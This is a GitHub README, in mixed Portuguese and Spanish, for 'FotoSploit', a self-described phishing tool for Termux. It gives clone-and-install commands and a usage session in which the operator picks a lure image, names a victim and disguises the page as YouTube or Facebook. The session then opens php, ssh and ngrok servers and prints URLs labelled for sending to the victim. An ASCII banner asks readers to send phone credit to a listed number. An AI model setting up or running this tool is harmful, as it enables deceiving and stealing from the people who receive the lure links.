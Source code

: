 # FotoSploit-
Fotosploit, é uma técnica de phishing muito fácil e rápido de o fazer. Para mais informações aceeso o nosso canal do youtube: encurtador.com.br/luL39?sub_confirmation=1

Banner FotoSploit 
![69989850-269e8280-150a-11ea-8ebc-7a585e17ade4](https://user-images.githubusercontent.com/75740176/104574421-e8045280-564d-11eb-8041-8ede43098b6e.jpg)
Instalação

pkg update && pkg upgrade -y
pkg install -y php
pkg install -y python2
pkg install -y git
cd $HOME
git clone https://github.com/Cesar-Hack-Gray/FotoSploit 
cd FotoSploit
ls
bash install.sh 
./FotoSploit 

Instalação FotoSploit premium

pkg update && pkg upgrade -y
pkg install -y php
pkg install -y python2
pkg install -y git
CD $HOME
git clone https://github.com/Cesar-Hack-Gray/FotoSploit 
cd FotoSploit 
ls
bash install.sh --install --premium
./FotoSploit [option]

Screenhost 

Uso 
 _____________________________________________________________________
             ___             _,.---,---.,_
             |           ,;~'             '~;,
             |         ,;                     ;,
    Frontal  |        ;                        ; ,--- Siga-me em todas as redes sociais
     Bone    |       ,'                        /'
             |      ,;                       /' ;,
             |      ; ;      .          . <-'  ; |
             |__   | ;   ______       ______   ;<----- Ngafa-Pró
             ___   |  '/~ ~ . ~ ~\'  |
            |      |  ~  ,-~~~^~, | ,~^~~~-,  ~  |
  Maxilla,  |       |   |        }:{        | <------ Orbit
 Nasal and  |       |   l       / | \       !   |
 Zygomatic  |      .~  (__,.-- .^. --.,__)  ~.
   Bones    |      |    ----;' / | \  ;-<--------- Infraorbital Foramen
         |__       \__.       \/^\/       .__
              ___    V| \                 / |V <--- Copie e cole o meu endereço mais abaixo
              |       | |T~\___!___!___/~T| |
              |       | | IIII_I_I_I_IIII | |
     Mandible |       |  \ III I I I III,/  |
              |        \    ~~~~~~~~~~
             |          \   .       . <-x---- Por Favor, mande só saldo( +244 941172521)
              |__          \.    ^    .
                             ^~~~^~~~^
_________________________________________________________________            
           Created by @Luís ALcastana Lavoziel(Ngafa-Pró)
                  Usage: show options

 FotoSploit> show options
 ===============
 CNgafa-Pró
 ===============
 
 Comandos          descripsion
 
 show options      opciones
 set foto          [option]
 set title url     [Titulo]
 set view          [FACEBOOK][YOUTUBE]
 GO                Comenzar
 run               Comenzar
 exit              Salir
 
 
 set title url Cesar-Hack-Gray (example)
 set foto [youtube] [FreeFire] [PUBG]
 [Anime] [pornografia] [Bokep] [facebook]
 [/sdcard/example.jpg]
 
 
 SET FOTO :
 SET VIEW :
 SET TITLE URL :
 
 
 FotoSploit> set foto /sdcard/foto.jpg
 [+] FOTO => /sdcard/foto.jpg
 FotoSploit> set title url Name-Victim
 [+] Name => Name-Victim
 FotoSploit> set view YOUTUBE
 [+] VISTA => www.youtube.com
 FotoSploit> GO
 [+] Uploading -> /sdcard/foto.jpg...
 [+] Abriendo servidores...
 [+] Abriendo servidor php...
 [+] Abriendo servidor ssh...
 [+] Abriendo servidor ngrok..
 [+] Descargando ngrok full....
 [+] Obteniendo URLs..
 [+] Servicio de ayuda = https://t.me/CesarGray
 [+] Envia ala victima = http://localhost:5756
 [+] Envia ala victima = https://1d16900a.ngrok.io
 [+] Interactuando ala victima...
